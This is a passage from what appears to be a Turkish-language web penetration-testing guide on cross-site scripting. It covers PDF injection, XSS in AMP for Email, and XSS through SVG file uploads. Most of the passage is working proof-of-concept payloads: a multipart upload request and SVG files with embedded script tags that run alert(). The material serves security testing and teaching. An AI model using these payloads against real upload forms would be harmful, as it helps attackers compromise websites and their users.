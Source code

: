 Eğer HTML etiketlerini enjekte edemiyorsanız, **PDF verisi enjekte etmeyi** denemek faydalı olabilir:

{% content-ref url="pdf-injection.md" %}
[pdf-injection.md](pdf-injection.md)
{% endcontent-ref %}

### Amp4Email'de XSS

AMP, mobil cihazlarda web sayfası performansını hızlandırmayı amaçlayarak, hız ve güvenliğe vurgu yaparak işlevselliği sağlamak için JavaScript ile desteklenen HTML etiketlerini içerir. Çeşitli özellikler için bir dizi bileşeni destekler ve bunlara [AMP bileşenleri](https://amp.dev/documentation/components/?format=websites) aracılığıyla erişilebilir.

[**E-posta için AMP**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) formatı, belirli AMP bileşenlerini e-postalara genişleterek alıcıların içerikle doğrudan e-postaları içinde etkileşimde bulunmalarını sağlar.

Örnek [**Gmail'de Amp4Email'de XSS yazımı**](https://adico.me/post/xss-in-gmail-s-amp4email).

### Dosya yüklemede XSS (svg)

Aşağıdaki gibi bir dosyayı ( [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/) ) resim olarak yükleyin:
```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert(1);
</script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

